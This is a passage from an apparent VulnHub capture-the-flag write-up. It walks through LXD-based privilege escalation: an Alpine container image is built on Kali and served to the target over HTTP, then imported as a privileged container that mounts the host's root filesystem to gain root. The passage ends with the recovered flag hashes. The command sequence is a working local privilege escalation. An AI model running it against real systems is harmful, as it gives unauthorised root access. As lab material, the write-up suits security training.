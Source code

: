 On Kali, we proceed to download the image files:

```bash
wget --no-parent -r https://us.lxd.images.canonical.com/images/alpine/3.15/amd64/default/20220720_13:00/
cd us.lxd.images.canonical.com/images/alpine/3.15/amd64/default/20220720_13:00/
find . -name '*html*' -delete
tar -cvf alpine.tar ./*
```

## Transfer to the Target

Initiate a web server to transfer the image to the target

```bash
sudo python3 -m http.server 80
```

On the target, we download the alpine.tar file from Kali and extract it

```bash
wget http://kali.cyber.range/alpine.tar
mkdir alpine
tar -xvf alpine.tar -C alpine
cd alpine
```

## Import the Container Image Manually

```console
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
lxd init
lxc init alpine alpinect -c security.privileged=true
lxc config device add alpinect pwndisk disk source=/ path=/mnt/root recursive=true
lxc start alpinect
lxc exec alpinect /bin/sh
```

Note that while running lxd init, the default options can be used by simply pressing the Enter key multiple times. Additionally, it should be noted that the host's disk is mounted at /mnt/root.

![](../../assets/img/vulnhub/mis7.png)

# Flags

Brexit

```plaintext
404b9193154be7fbbc56d7534cb26339
```


Root

```plaintext0d2c6222bfdd3701e0fa12a9a9dc9c8c
```

